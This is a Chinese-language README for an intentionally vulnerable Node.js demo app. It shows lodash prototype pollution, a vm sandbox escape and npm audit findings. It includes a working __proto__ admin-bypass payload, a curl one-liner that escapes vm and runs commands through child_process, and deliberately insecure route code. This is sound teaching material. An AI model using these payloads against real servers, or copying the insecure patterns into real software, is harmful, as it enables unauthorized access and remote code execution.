 # 经典Node.js漏洞演示

这个故意设置漏洞的应用程序演示了Node.js中的三个经典漏洞：

- 原型污染
- 沙箱逃逸
- 存在漏洞的第三方包（引入原型污染漏洞）

## 如何设置

使用 docker:

```
$ docker compose up
```

使用本地环境:

```
$ npm i && npm start
```

然后访问 http://localhost:9999/

## 漏洞演示

### 原型污染

```javascript
  app.post('/api/orders', validate(postOrderSchema), (req, res, next) => {
    const clientOrder = _.merge({}, req.body, { ipAddress: req.ip });

    const newObj = {};
    console.log('newObj.admin', newObj.admin);

    res.json({
      status: 'ok',
    });
  });
```

第三方包“lodash”已过时且在`merge`函数中容易受到原型污染漏洞的影响。

正常请求：

```bash
$ curl -H"content-type: application/json" -d @normal_order.json http://localhost:9999/api/orders

{"status":"ok"}
```

攻击请求：

```bash
$ curl -H"content-type: application/json" -d @attack_order.json http://localhost:9999/api/orders

{"status":"ok"}
```

`attack_order.json`包含原型污染有效载荷：

```json
{
  "__proto__": { "admin": true },
  "currency": "EUR",
  "email": "john.doe@mail.com"
}
```

它试图污染`Object.prototype`并向其中添加一个名为`admin`的属性，这将影响下面定义的`/api/login`路由：

```javascript
  function login(username, password) {
    if (username == 'admin' && password == 'thisisaveryveryverylongpassword') {
      return { user: 'admin', admin: true };
    } else {
      return { user: 'guest' };
    }
  }

  const loginSchema = {
    body: Joi.object({
      username: Joi.string().required(),
      password: Joi.string().required(),
    }),
  };
  app.post('/api/login', validate(loginSchema), (req, res, next) => {
    user = login(req.body.username, req.body.password);
    if (user.admin) {
      res.json({
        secret: "this is a top secret",
      });
    } else {
      res.json({
        error: "not admin"
      });
    }
  });
```

只有当用户输入正确的管理员用户名和密码时，`login`函数才会返回一个将'admin'属性设置为true的对象，否则，`login`函数将返回一个没有admin属性的对象。



在攻击者污染`Object.prototype`之前，它工作正常：

```bash
$ curl -H"content-type: application/json" -d'{"username":"admin","password":"idontknowpassword"}' http://localhost:9999/api/login

{"error":"not admin"}

----------------

$ curl -H"content-type: application/json" -d'{"username":"admin","password":"thisisaveryveryverylongpassword"}' http://localhost:9999/api/login

{"secret":"this is a top secret"}
```

在攻击者发送攻击请求并污染了`Object.prototype`之后，他可以在不知道管理员密码的情况下获得管理员权限：

```bash
$ curl -H"content-type: application/json" -d'{"username":"admin","password":"idontknowpassword"}' http://localhost:9999/api/login

{"secret":"this is a top secret"}
```

这是因为在`/api/login`路由中，它会检查`user.admin`，当找不到admin属性时，它会向上搜索到`__proto__`，也就是`Object.prototype`，并找到污染的admin属性。

###  沙箱逃逸

还有一个位于`/api/calc`的路由，用于执行一些简单的数学计算：

```javascript
  const mathExp = {
    body: Joi.object({
      exp: Joi.string().required(),
    }),
  };
  app.post('/api/calc', validate(mathExp), (req, res, next) => {
    console.log(req.body.exp);
    ans = vm.runInNewContext(req.body.exp);

    res.json({
      ans: ans,
    });
  });
```

```bash
curl -H"content-type: application/json" -d'{"exp":"2+3*4"}' http://localhost:9999/api/calc

{"ans":14}
```

它试图使用`vm`模块来评估来自客户端的表达式，这并不安全，可能被绕过并实现远程代码执行：

```bash
$ curl -H"content-type: application/json" -d $'{\"exp\":\"(e=> { return this.constructor.constructor(\'return process\')().mainModule.require(\'child_process\').execSync(\'id\').toString();})()\"}' http://localhost:9999/api/calc

{"ans":"uid=0(root) gid=0(root)\n"}
```

### 存在漏洞的第三方包

如原型污染漏洞中所示，`lodash`包已过时且容易受到原型污染的影响，我们可以使用`npm audit`命令来识别此问题：

```bash
$ npm audit
# npm audit report

lodash  <=4.17.20
Severity: critical
Regular Expression Denial of Service (ReDoS) in lodash - https://github.com/advisories/GHSA-x5rq-j2xg-h7qm
Prototype Pollution in lodash - https://github.com/advisories/GHSA-4xc9-xhrj-v574
Prototype Pollution in lodash - https://github.com/advisories/GHSA-fvqr-27wr-82fm
Prototype Pollution in lodash - https://github.com/advisories/GHSA-p6mc-m468-83gw
Command Injection in lodash - https://github.com/advisories/GHSA-35jh-r3h4-6jhm
Regular Expression Denial of Service (ReDoS) in lodash - https://github.com/advisories/GHSA-29mw-wpgm-hmr9
Prototype Pollution in lodash - https://github.com/advisories/GHSA-jf85-cpcp-j695
fix available via `npm audit fix --force`
Will install lodash@4.17.21, which is outside the stated dependency range
node_modules/express-validation/node_modules/lodash
node_modules/lodash

qs  6.7.0 - 6.7.2
Severity: high
qs vulnerable to Prototype Pollution - https://github.com/advisories/GHSA-hrpp-h998-j3pp
fix available via `npm audit fix`
node_modules/qs
  body-parser  1.19.0
  Depends on vulnerable versions of qs
  node_modules/body-parser
  express  4.17.0 - 4.17.1 || 5.0.0-alpha.1 - 5.0.0-alpha.8
  Depends on vulnerable versions of body-parser
  Depends on vulnerable versions of qs
  node_modules/express

4 vulnerabilities (3 high, 1 critical)

To address issues that do not require attention, run:
  npm audit fix

To address all issues, run:
  npm audit fix --force
```

然后，你可以分析报告并更新受影响的包以解决问题。

